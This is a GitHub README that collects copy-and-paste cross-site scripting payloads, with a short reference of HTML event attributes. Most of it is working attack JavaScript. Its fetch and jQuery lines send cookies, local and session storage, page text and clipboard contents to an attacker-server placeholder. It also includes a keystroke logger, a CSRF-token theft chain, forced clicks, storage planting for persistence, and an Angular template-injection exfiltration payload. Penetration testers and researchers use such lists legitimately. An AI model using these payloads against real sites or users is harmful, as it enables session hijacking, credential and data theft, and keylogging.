 # Practical XSS Payloads
## ☕ ABOUT
Originally this started as just a little list of PoC payloads but it has now expanded to some more general notes as well. This now contains easy copy & paste PoC payloads as well as quick references for what HTML tags frequent event attributes use. 

### **Quick-navigation:**
+ **EXFILTRATION:**  
  + [FETCH](https://github.com/Insecurities/PracticalXSSPayloads#fetch)  
  + [.$GET](https://github.com/Insecurities/PracticalXSSPayloads#jquery-ajax)
+ **FORCING ACTIONS:**
  + [CLICK](https://github.com/Insecurities/PracticalXSSPayloads#forcing-actions)
+ **SETTING ITEMS:**
  + [DOCUMENT.COOKIE](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#via-documentcookie)
  + [WINDOW.LOCALSTORAGE](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#via-windowlocalstorage)
+ **EVENT ATTRIBUTES:**
  + [ONLOAD](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onload)
  + [ONERROR](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onerror)
  + [ONMOUSEOVER](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onmouseover)
  + [ONSELECT](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onselect)
  + [ONKEY/UP/DOWN/PRESS](https://github.com/Insecurities/PracticalXSSPayloads/edit/main/README.md#onkeyupdownpress)
+ **ANGULAR NOTE**
  + [PAYLOADS FOR ANGULAR](https://github.com/Insecurities/PracticalXSSPayloads#angular)

# 👁️‍🗨️ EXFILTRATION
*For session hijacking, sensitive info exfil, etc.*
## FETCH
### GET VALUE FROM LOCAL STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $FETCH
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
### GET COOKIES, POST $FETCH AND EXFIL RESPONSE (Good for exfiltrating data from response pages or where you might not be able to compromise cookies but leverage a CSRF token thats accessible)
```javascript
var data ={"YOUR_JSON":"SOMEVALUE"};var value=('; '+document.cookie).split(`; CSRF-TOKEN=`).pop().split(';')[0];fetch('/SENSITIVE_API_ENDPOINT',{method:'POST',headers: {'X-CSRF-Token':value,'Content-Type':'application/json;charset=utf-8',},body:JSON.stringify(data),}).then(response=>response.json()).then(data =>{fetch("https://{ATTACKER_SERVER}/key?"+JSON.stringify(data));});
```
### GET TEXT FROM PAGE AND $FETCH *(might be constrained by data length - use .slice() to shorten)*
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```
### GET CONTENT FROM CLIPBOARD AND $FETCH *(Will prompt user for Clipboard perms if not already set)*
```javascript
setTimeout(async()=>fetch("https://$ATTACKER_SERVER/?copy="+(await window.navigator.clipboard.readText())), 1000)
```
### KEYLOGGER WITH $FETCH *(Script modified from Chentetrans logger)*
```javascript
var l = ""; document.onkeypress = function(e){;l+=e.key;fetch("https://$ATTACKER_SERVER/?q="+ l);}
```
## JQuery AJAX
### GET VALUE FROM LOCAL STORAGE AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $.GET:
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```  
### GET TEXT FROM PAGE AND $.GET *(might be constrained by data length - use .slice() to shorten)*
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```

# 💥 FORCING ACTIONS
*For forcing users to preform a certain action. This is tricky because every app is going to be different and thus these will require **modification**.*
### CLICK ELEMENT BY ID
```javascript
document.getElementById("$TARGET_ELEMENT_ID").click()
```

# 🏠 SETTING ITEMS
*Sometimes you may want to set items in the browsers storage for vulnerability chains or persistence.*

**NOTE:**
For persistence or certain vulnerability chains you'll want to make sure you set an appropriate path (i.e `/`). For the purpose of these examples I've included the root path.
### VIA document.cookie
```javascript
document.cookie="cookieName=cookieValue>;Path=/"
```
### VIA window.localStorage
```javascript
window.localStorage.setItem('itemName', 'itemValue');
```

# 📔 EVENT ATTRIBUTES
*Something super crucial about event attributes is that **not every HTML tag is going to support the same event attributes**. So when you have injection into a div and you're trying to use `onload()` it's not going to work.*

#### `ONLOAD`
```html
<body>
<frame>
<frameset>
<iframe>
<img>
<link>
<script>
<style>
<svg>
```
#### `ONERROR`
```html
<img>
<object>
<link>
<script>
```
#### `ONMOUSEOVER`
```HTML
ALL ELEMENTS EXCEPT:
<base>, <bdo>, <br>, <head>, <html>, <iframe>, <meta>, <param>, <script>, <style>, and <title>
```
#### `ONSELECT`
```html
<input>
<textarea>
```
#### `ONKEY/UP/DOWN/PRESS`
```html
ALL ELEMENTS EXCEPT:
<base>, <bdo>, <br>, <head>, <html>, <iframe>, <meta>, <param>, <script>, <style>, and <title>
```

# ANGULAR
For Angular template injection you should be able to use the above payloads in conjunction with constructors. You can find an example below.
### GET VALUE FROM SESSION STORAGE AND FETCH
```javascript
{{constructor.constructor('fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))')()}}
```
